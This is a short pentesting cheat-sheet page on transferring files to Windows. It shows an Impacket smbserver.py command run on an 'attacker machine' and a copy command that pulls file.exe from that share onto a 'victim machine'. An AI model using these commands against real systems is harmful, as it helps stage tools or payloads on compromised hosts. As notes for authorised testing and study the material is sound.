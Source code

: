 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: false
  outline:
    visible: false
  pagination:
    visible: true
---
```


# Transferring files

## Windows

## Impacket-smbserver.py

```bash
smbserver.py <share> /path/to/file    #attacker machine
copy \\$IP\<share>\file.exe    # victim machine
```
